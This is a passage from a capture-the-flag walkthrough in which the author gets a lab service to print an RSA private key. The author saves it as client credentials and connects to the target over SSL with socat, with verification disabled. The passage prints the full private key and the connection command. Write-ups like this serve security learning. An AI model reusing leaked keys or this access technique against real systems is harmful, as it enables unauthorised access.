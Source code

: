 <li>
<pre>What are you looking for? key
Sounds like you forgot your private key. Let's find it for you...

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA9BnS9JRnE8sCI3fLiSaMhh+ZuLfwdfkmjoFj7c/noRrMSkG0
AW6u1M7LzUbcx/t3b9uODilFh+YFs6WqwPik1oJIrd1vi8m3vPXXAiecPFZezon1
5+fXSZK0CYnkB4NT0m3c3TxWDTYZL+XxV7DkBNLZ69KjS21boMeeupN6CicEIroS
0yAhjS/dMAwvSnZAwDM7iV46M9GLxvoSvLa3LscuuwG8czCmbk9UTa8Z4VKXr0Xv
bcO9tZ5mNylHdaPO6OcepViEdr55GIzHqbfmKdvrB5VHeA06Z+8umAPEwgMb7HIN
onT+mHoZx/fzC+lY/kqdIzpUFhii722VfO4uwwIDAQABAoIBAG7qaQvPfwLkZOVe
4rJAPOwY4c2obu/8NUPdkV2W8cYnmhpHvpZEB9cU3FA7WcjY/81o8ySGJlz47TBT
H8KteKEr9ABktPHMx9tpzbfh7cEQ8eVhlMY6d32r1njbGi07xFPCrfAtIWDBazJz
hnV1IDb85B6eyKpWV6M38W0P5A1GCBCwYwqjP2oBKaHxnDKyiBIHPazc1bPQNo3Q
z2rh9aIoVtSVL44zuc6R0pGppvIdHOy5v2RfRAzmFuqPDr0xpHvxHI92zirmCLxi
lEeq0hEHl0XaezKu1//LrBBxng7sDN8zEgCIfaVGU+eEaLhmjOV6jkjYXbTn3HnF
RFLzLTkCgYEA/A1BlspCIqnL48NVhjAQ7rnF7bnYPAeEBnAsYl2rUoYX5pTJy9fA
tGi4fxA6yZ+JIu//o8GLEZOpUrXN0yyKNUjLxTn5Fkw5b5Xpk9/fVlIv7lnv0tx+
bpLOVrc3lL08pRi6ri1TCoSo9e1UXm8aaNOsQQakp2FOtmDMQqYx8q0CgYEA9+yv
JysNuVAzvdccwNgtkrOaov57iwYXZKMatFZDmjKrggxpRC47QaILBAKkhuY9loiP
RYrTh26c0NvAWcel702msDKhtIYSiGKEhhCjetMtwEQHozVwDHcgaiY6G9ijmQ6J
ADFX/ZH0vL89HWd9UaKbXsXu7dUJ3xBFIdYCRS8CgYAKNQc48gvnl3S4TorCGmQ1
JrTLQcFt/Oft0tEZUq3Dc8a4AcKCTMRzCeKe0qtuytUk4w85NHdLSO2MeexR5vXZ
3o7R990MeB3DVRDWejRzLHTgdCfwJBnCpJNSk6zeiyNPlEbLEu7P+DtXajsGb/1j
zV6ma3xzgs9LN3ROJqjTKQKBgQDnWPpcv2UwDrIprSjMny1vnp9nB7d7FHUR2M2b
iH/OzQeT9Ebqc4WiCjbjSCAFLaY86TNgflpDH6m/j8AfRxkFhF1OQAD7NrzmfaAS
hkY24AbqSdEisEPdrfAWfZNt1qtasOCQyHrGSMOquX2rCZ48ZlM7jdIWJtzuRP1t
xIkbywKBgE0pqu4L98MFQ4NxfEAkSHmRIIVxewW89qSm5pCMzr9YzXLHlXbTUu1S
CbipVXzzHspb+jkPFohQORTOK1sb4IJcA7+dEuQO3CJ2s8PT1MUOcbuWGRQSt0Rl
7u12J3N1/k/ZygC+c9alrGEm/GuWUYAGW5LkbmAqJO8VXQ0B5fD6
-----END RSA PRIVATE KEY-----</pre>
</li>
<li>Got it! Cool, let's save these to local files:&nbsp;<strong>client.crt</strong> and <strong>client.key</strong></li>
</ul>
</li>
<li>The previous&nbsp;<strong>help</strong> output mentioned <strong>"socat" </strong>connect with credentials over port <strong>54321</strong>. Let's try that<br />
<ul>
<li>
<pre>$ socat stdio ssl:10.10.74.126:54321,cert=client.crt,key=client.key,verify=0


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

